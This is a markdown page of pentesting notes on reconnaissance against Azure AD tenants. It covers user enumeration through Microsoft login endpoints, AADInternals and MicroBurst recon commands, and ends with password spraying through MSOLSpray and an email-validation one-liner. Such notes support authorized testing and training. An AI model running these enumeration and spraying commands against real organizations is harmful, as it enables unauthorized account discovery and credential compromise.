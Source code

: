 ```yaml
---
title: Recon
description: The first step to Global Administrator
position: 1
---
```


# Check if AzureAD is in use

## Manual

We can know if a enterprise is using Azure and has its own tenant querying several Microsoft services:

Knowing if the enterprise has an AAD:

```bash
http https://login.microsoftonline.com/getuserrealm.srf?login={{ Username user@domain.com }}&json=1 --body
```

An example output would be:

```json
{
    "CloudInstanceIssuerUri": "urn:federation:MicrosoftOnline",
    "CloudInstanceName": "microsoftonline.com",
    "DomainName": "rai.usc.es",
    "FederationBrandName": "Universidade de Santiago de Compostela",
    "Login": "user@rai.usc.es",
    "NameSpaceType": "Managed",
    "State": 4,
    "UserState": 1
}
```

Get Tenant ID

```bash
http https://login.microsoftonline.com/{{ Domain domain.com }}/.well-known/openid-configuration --body
```

The tenant ID can be found in many places inside the json returned

```json
{
    "authorization_endpoint": "https://login.microsoftonline.com/{TenantID}/oauth2/authorize",
    [...]
}
```

Check if email is valid

```bash
http POST https://login.microsoftonline.com/common/GetCredentialType Username="{{ Username user@domain.com }}" | jq '.IfExistsResult'
```

Response Codes
* 1 - User Does Not Exist on Azure as Identity Provider
* 0 - Account exists for domain using Azure as Identity Provider
* 5 - Account exists but uses different IdP other than Microsoft
* 6 - Account exists and is setup to use the domain and an IdP other than Microsoft

## [AADInternals](https://github.com/Gerenios/AADInternals)

> Note: This module only works in Windows (arm64 supported)

```bash
Install-Module AADInternals -Scope CurrentUser
Import-Module AADInternals
```

Get Tenant information, name, type...

```powershell
Get-AADIntLoginInformation -UserName {{ Username root@domain.com }}
```

Get Tenant Id

```powershell
Get-AADIntTenantID -Domain {{ Domain domain.com }}
```

Get Tentant domains

```powershell
Get-AADIntTenantDomains -Domain {{ Domain domain.com }}
```

Get all the information 

```powershell
Invoke-AADIntReconAsOutsider -DomainName {{ Domain domain.com }}
```

## [Microburst](https://github.com/NetSPI/MicroBurst)

MicroBurst includes functions and scripts that support Azure Services discovery, weak configuration auditing, and post exploitation actions such as credential dumping. It is intended to be used during penetration tests where Azure is in use.

> Note: This module requires windows becaus it uses AzureAD module which only supports Windows. You can try to run it using AzureADPreview but beware of possible errors

Installation:

```powershell
# Install-Module -Name Az -Scope CurrentUser -Repository PSGallery -Force
# Install-Module -Name AzureAD -Scope CurrentUser -Repository PSGallery -Force
# Install-Module -Name MSOnline -Scope CurrentUser -Repository PSGallery -Force
git clone https://github.com/NetSPI/MicroBurst
cd MicroBurst
Import-Module .\Microburst.psm1 # Takes a moment
```

Enumerate all subdomains for an organization

```powershell
Invoke-EnumerateAzureSubDomains -Base {{ Domain domain.com }} -Verbose
```

# Password spraying

Although this method is not recommended in production or a real assessment it is used in real world scenarios so we'll cover it here.

There are countless tools that can perform this, one of the most known ones is [MSOLSpray](https://github.com/dafthack/MSOLSpray)

```powershell
git clone https://github.com/dafthack/MSOLSpray
cd MSOLSpray
Import-Module ./MSOLSpray.ps1
```

You can check valid emails using this fancy oneliner

```powershell
cat ../emails.txt | %{
    http POST https://login.microsoftonline.com/common/GetCredentialType Username="$_" | jq -r 'select(.IfExistsResult!=1) | .Username'
}
```

Password spraying can be performed using the following command:

```powershell
Invoke-MSOLSpray -UserList ..\emails.txt -Password '{{ Password password }}' -Verbose
```